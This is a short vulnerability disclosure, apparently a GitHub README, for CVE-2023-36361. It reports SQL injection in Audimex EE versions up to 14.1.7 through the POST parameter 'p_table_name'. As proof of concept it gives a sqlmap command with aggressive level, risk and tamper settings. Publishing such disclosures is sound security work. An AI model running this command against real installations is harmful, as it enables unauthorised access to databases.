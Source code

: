 # CVE-2023-36361
SQL Injection vulnerability found in AudimexEE version 14.1.7 allows an attacker to execute arbitrary SQL commands via the POST parameter "p_table_name". 
# Affected Product & Version
Audimex EE <= 14.1.7 
# PoC
SQLMap exploit: sqlmap -r sqli1.txt --level 5 --risk 3 --tamper=space2comment --batch --current-db
<img width="810" alt="screenshot-CVE-2023-36361" src="https://github.com/user-attachments/assets/851117f1-3001-482a-8dcb-ecc225bc822c" />

# Credits
This vulnerability was discovered by Leo Georget of Henkel Cyber Security team.
